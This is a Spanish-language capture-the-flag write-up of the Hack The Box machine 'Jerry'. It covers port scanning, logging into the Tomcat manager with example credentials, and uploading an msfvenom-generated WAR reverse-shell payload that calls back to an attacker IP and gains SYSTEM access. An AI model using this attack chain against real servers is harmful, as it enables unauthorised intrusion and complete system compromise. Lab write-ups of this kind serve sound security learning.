# Jerry

```bash
nmap -p- --open -sCV --min-rate=5000 -n 10.129.136.9 -oN nmapResult.txt
```



- Por el ttl vemos que es un windows

```bash
nmap --script http-enum 10.129.136.9
```



- Vemos un tomcat 7.0.88 en el servidor http expuesto en el puerto 8080

- Hacemos web discovery con gobuster y un diccionario de tomcat
```bash
find /usr/share/seclists -iname \*tomcat\*
```

- /usr/share/seclists/Discovery/Web-Content/Web-Servers/Apache-Tomcat.txt
Directorios comunes en tomcat -> **/manger/html**

```bash
gobuster dir -u http://10.129.136.9:8080 -w /usr/share/seclists/Discovery/Web-Content/Web-Servers/Apache-Tomcat.txt -t 200 -x html,php,txt
```



- Vemos un **manager** que nos pide unas credenciales



- No funciona con passwords default en principio
Nos sale este mensaje



- Vemos que pone de ejemplo las credenciales tomcat:s3cretç

- Al cerrar el navegador y volver a acceder a http://10.129.136.9:8080/host-manager/html con las credenciales de "ejemplo" conseguimos acceso



- Vemos info acerca del servidor



amd64 Windows Server 2012 R2

- Vemos que nos deja también subir un archivo WAR



- Buscaremos con msfvenom un payload de java que sea archivo WAR
```bash
msfvenom -l payloads
```



Vemos uno que nos establece una *reverse_shell_tcp* que es lo que queremos

-
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.15.36 LPORT=443 -f war -o shell.war
```

Nos creamos un archivo en formato war con el payload seleccionado, que envíe la shell a nuestra IP atacante por el puerto 443

- Nos ponemos a la escucha con
```bash
nc -nlvp 443
```

Subimos el *shell.war* y entramos en el nuevo directorio creado





NT  authority\system
